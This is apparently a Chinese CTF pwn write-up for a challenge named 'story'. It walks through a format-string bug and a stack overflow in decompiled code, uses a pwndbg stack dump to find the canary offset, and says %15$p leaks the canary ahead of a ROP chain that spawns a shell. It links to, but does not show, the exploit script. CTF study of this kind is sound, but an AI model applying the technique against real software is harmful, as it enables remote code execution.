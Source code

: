 **利用：格式化串，栈溢出**

先利用格式化串泄露canary，再rop，getshell。

程序开启了以下保护：
```
[*] '/mnt/hgfs/Desktop/story/story'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

这里有格式化串漏洞
```
char *sub_400915()
{
  char *v0; // ST08_8
  char s; // [rsp+10h] [rbp-40h]
  unsigned __int64 v3; // [rsp+48h] [rbp-8h]
  v3 = __readfsqword(0x28u);
  printf("Please Tell Your ID:");
  read__((__int64)&s, 50uLL);
  v0 = strdup(&s);
  printf("Hello ", 50LL);
  printf(&s);                                   // 格式化串
  putchar('\n');
  return v0;
}
```
这里有栈溢出：
```
char *sub_4009A0()
{
  __int64 size; // [rsp+0h] [rbp-A0h]
  char s; // [rsp+10h] [rbp-90h]
  unsigned __int64 v3; // [rsp+98h] [rbp-8h]
  v3 = __readfsqword(0x28u);
  puts("Tell me the size of your story:");
  size = read_str2i();
  if ( size < 0 )
    size = -size;
  if ( size > 128 )
    size = 1024LL;
  puts("You can speak your story:");
  read__((__int64)&s, size);                    // 栈溢出
  return strdup(&s);
}
```
由于开启了canary保护，则需要先利用格式化串泄露canary：
```
pwndbg> stack 25
00:0000│ rsp  0x7fffffffdd90 —▸ 0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2887
01:0008│      0x7fffffffdd98 —▸ 0x603010 ◂— 'AAAAAAAA' //我输入的AAAAAAAA
02:0010│ rdi  0x7fffffffdda0 ◂— 'AAAAAAAA'
03:0018│      0x7fffffffdda8 ◂— 0x0
... ↓
05:0028│      0x7fffffffddb8 —▸ 0x7ffff7a85439 (_IO_file_setbuf+9) ◂— test   rax, rax
06:0030│      0x7fffffffddc0 —▸ 0x7ffff7dd2620 (_IO_2_1_stdout_) ◂— 0xfbad2887
07:0038│      0x7fffffffddc8 —▸ 0x7ffff7a7cdbd (setbuffer+189) ◂— test   dword ptr [rbx], 0x8000
08:0040│      0x7fffffffddd0 ◂— 0x0
09:0048│      0x7fffffffddd8 ◂— 0x47fcabdd43fa2100  //canary
0a:0050│ rbp  0x7fffffffdde0 —▸ 0x7fffffffde20 —▸ 0x400b70 ◂— push   r15
0b:0058│      0x7fffffffdde8 —▸ 0x4008c6 ◂— mov    qword ptr [rbp - 0x18], rax
```
此时寄存器rdi 的值为
```
RDI  0x7fffffffdda0 ◂— 'AAAAAAAA'
```
则偏移为6时才是栈中第一项，计算下canary的偏移是15。
利用`%15$p`即可泄露canary。
然后利用栈溢出写rop即可

[https://github.com/Dittozzz/CTF-pwn-writeup/blob/master/西湖论剑线上赛/story/exp.py](https://github.com/Dittozzz/CTF-pwn-writeup/blob/master/西湖论剑线上赛/story/exp.py "exp.py")
